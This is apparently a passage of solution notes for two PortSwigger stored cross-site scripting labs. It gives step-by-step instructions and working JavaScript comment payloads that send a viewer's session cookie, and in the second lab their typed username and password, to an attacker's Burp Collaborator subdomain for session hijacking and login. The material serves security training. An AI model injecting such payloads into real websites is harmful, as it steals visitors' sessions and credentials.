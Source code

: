
### Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```javascript
<script>
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```
This script will make anyone who views the comment issue a POST request to burpcollaborator.net containing their cookie.
4. Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to /my-account to load the admin user's account page.

## Exploiting cross-site scripting to capture passwords
Reference: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords


### Quick Solution
Exploit an XSS vulnerability in the comments to make anyone who views the comment to issue a POST request to the Burp Collaborator containing their username and password. Payload in the next section.


### Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
This script will make anyone who views the comment issue a POST request to burpcollaborator.net containing their username and password.
4. Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction.If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.
6. Use the credentials to log in as the victim user.
